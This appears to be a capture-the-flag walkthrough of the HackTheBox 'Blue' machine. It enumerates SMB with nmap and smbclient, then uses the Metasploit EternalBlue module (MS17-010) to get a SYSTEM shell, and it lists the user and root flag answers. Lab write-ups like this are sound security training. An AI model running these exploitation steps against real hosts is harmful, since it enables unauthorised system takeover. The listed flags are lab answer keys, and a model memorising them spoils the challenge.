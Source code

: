 
# HackTheBox Walkthrough - Machine: Blue

**Target IP**: 10.129.114.255  
**Difficulty**: Easy  
**Objective**: Exploit SMB vulnerability (MS17-010) to gain system access and retrieve user and root flags.

---

## 🧭 Enumeration

### 🔍 Task 1: How many open TCP ports are listening on Blue?  
**Answer**: `3`  
![nmap](img/nmap.png)

> Exclude 5-digit ephemeral ports  
```bash
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
```

---

### 🔍 Task 2: What is the hostname of Blue?  
**Answer**: `HARIS-PC`  
> Found in Nmap Service Info

---

### 🖥️ Task 3: What operating system is running on the target machine?  
**Answer**: `windows 7`  
> From Nmap: `Windows 7 Professional 7601 Service Pack 1`

---

### 📁 Task 4: How many SMB shares are available on Blue?  
**Answer**: `5`  
```bash
smbclient -L 10.129.114.255
```
![smbclient](img/smbclient.png)

```
ADMIN$  
C$  
IPC$  
Share  
Users
```

---

### 🛡️ Task 5: What 2017 Microsoft Security Bulletin describes SMB RCE?  
**Answer**: `MS17-010`  
![ms2017-010](img/ms2017-010.png)

---

### 🐛 Task 6 (Optional): Famous malware using MS17-010?  
**Answer**: `WannaCry`  
![wannacry](img/wannacry.png)

---

### 💥 Task 7: What user do you get execution with when exploiting MS17-010?  
**Answer**: `NT AUTHORITY\SYSTEM`  

> Obtained via Metasploit EternalBlue module:  
![searchslploit](img/searchslploit.png)

```bash
search eternalblue
use 0
set RHOSTS 10.129.114.255
set LHOST 10.10.14.99
run
```
![metasploit](img/metasploit.png)

> Meterpreter output:
```bash
getuid
Server username: NT AUTHORITY\SYSTEM
```

---

## 🧑‍💻 Submit User Flag  
**Flag Path**: `C:\Users\haris\Desktop\user.txt`  
**Answer**: `a4498ab0e70b149c6712ea6e0a72c6bd`

---

## 👑 Submit Root Flag  
**Flag Path**: `C:\Users\Administrator\Desktop\root.txt`  
**Answer**: `cf8f5445e61e74896492921825beb086`

---
